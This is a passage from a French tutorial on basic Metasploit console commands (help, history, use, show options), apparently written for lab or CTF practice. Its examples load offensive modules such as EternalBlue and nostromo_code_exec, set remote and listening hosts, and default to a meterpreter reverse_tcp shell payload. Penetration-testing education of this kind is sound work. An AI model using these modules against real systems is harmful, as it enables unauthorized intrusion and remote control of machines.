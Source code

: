 On peut utiliser la commande **`help`** afin d'avoir des **informations sur des commandes** :

```shell
msf6 > help set
Usage: set [option] [value]

Set the given option to value. If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore. Use -g to operate on the global datastore. 

If setting a PAYLOAD, this command can take an index from `show payloads'.

msf6 >
```

### History

On peut utiliser la commande **`history`** pour avoir l'**historique des commandes** tapées précédemment.

```shell
msf6 > history 
1 use exploit/multi/http/nostromo_code_exec
2 set lhost 10.10.16.17 
3 set rport 80 
4 options 
5 set rhosts 10.10.29.187
6 run 
7 exit 
8 exit -y 
9 version 
10 use exploit/multi/script/web_delivery
```

### Use

La commande **`use`** permet d'**utiliser un module**. 

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Vous remarquerez qu'on peut toujours utiliser les commandes comme `ls`, cela signifie qu'on est pas entré dans un dossier comme on pourrait croire.

### Show options

Une commande importante lorsqu'on veut utiliser un module, est **`show options`**, elle nous **affiche les options** qu'attends le module.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue): 

	Name          Current Setting Required Description 
	----          --------------- -------- ----------- 
	RHOSTS                        yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
	RPORT         445             yes The target port (TCP)
	SMBDomain     .               no (Optional) The Windows domain to use for authentication
	SMBPass                       no (Optional) The password for the specified username
	SMBUser                       no (Optional) The username to authenticate as 
	VERIFY_ARCH   true            yes Check if remote architecture matches exploit Target.
```